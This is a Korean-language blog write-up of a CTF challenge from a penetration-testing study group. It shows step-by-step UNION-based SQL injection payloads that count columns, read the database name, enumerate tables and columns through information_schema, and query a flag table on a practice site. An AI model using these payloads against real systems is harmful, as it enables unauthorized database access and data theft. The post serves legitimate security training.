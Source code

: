 ```yaml
---
layout: post
title:  노말틱 모의해킹 스터디 6주차 CTF 문제 (2)
author: leewoojin
date: 2025-05-09 00:00:00 +0900
categories: [Pentest, W6]
tags: []
---
```


검색창에 `normaltic`을 입력한 결과, 정상적인 검색 결과 동작을 확인할 수 있었습니다. 

<img width="1175" alt="Image" src="https://github.com/user-attachments/assets/56890963-3229-4c48-a687-a9143f60d1d7" />

실수로 SQL 주석(--)을 붙이지 않고 `' OR '1'='1` 만 입력해봤더니 
`doldol`의 계정에서  Info 부분에서 `"my name is normaltic"`
출력하는 것을 확인했습니다. 

<img width="1172" alt="Image" src="https://github.com/user-attachments/assets/b44f8ecc-3341-4a44-b0b4-2b40fd518335" />

`' OR '1'='1-- `  입력해봤더니 `doldol`의 원래 계정대로 출력되는 것을 확인할 수 있었습니다. 

<img width="1155" alt="Image" src="https://github.com/user-attachments/assets/c1126c8b-2fff-4213-bae1-d7d3f5a5c4ae" />


`doldol' UNION SELECT 1,2,3,4,5,6-- `를 입력하여 컬럼이 6개라는 것을 확인했습니다. 
<img width="1161" alt="Image" src="https://github.com/user-attachments/assets/9a5de7b2-6b75-44ef-85ce-3016283d22ac" />

`doldol' and '1' ='0' UNION SELECT 1,2,3,4,5,6-- `
Info부분에 6이 찍히는 것을 확인할 수 있습니다. 
<img width="1156" alt="Image" src="https://github.com/user-attachments/assets/fabf6106-9485-4ed5-95d1-1d6c48a8fe55" />

`doldol' and '1' ='0' UNION SELECT 1,2,3,4,5,database()-- `
DB 이름이 sqli_5 라는 것을 확인할 수 있습니다.
<img width="1168" alt="Image" src="https://github.com/user-attachments/assets/d00cfe96-5a49-49ee-bc5a-f4ebcde4e707" />

```sql
doldol' and '1' ='0' UNION SELECT 1,2,3,4,5,table_name FROM information_schema.tables WHERE table_schema='sqli_5'-- 
```
> 테이블 이름이 flag_honey 라는 것을 확인 
<img width="1142" alt="Image" src="https://github.com/user-attachments/assets/c9326907-2abc-4960-94ed-0da66ac5f188" />

```sql
doldol' and '1' ='0' UNION SELECT 1,2,3,4,5,column_name FROM information_schema.columns WHERE table_name='flag_honey'-- 
```
> flag_honey 테이블에서 flag를 발견
<img width="1145" alt="Image" src="https://github.com/user-attachments/assets/6dc80c99-7926-46d9-95d7-052aa429cad8" />

```sql
doldol' and '1' ='0' UNION SELECT 1,2,3,4,5,flag FROM flag_honey-- 
```
> 하핳 아니라네 ;ㅁ;
<img width="1149" alt="Image" src="https://github.com/user-attachments/assets/ab915c23-1d40-4a97-b22d-97776372ee7a" />
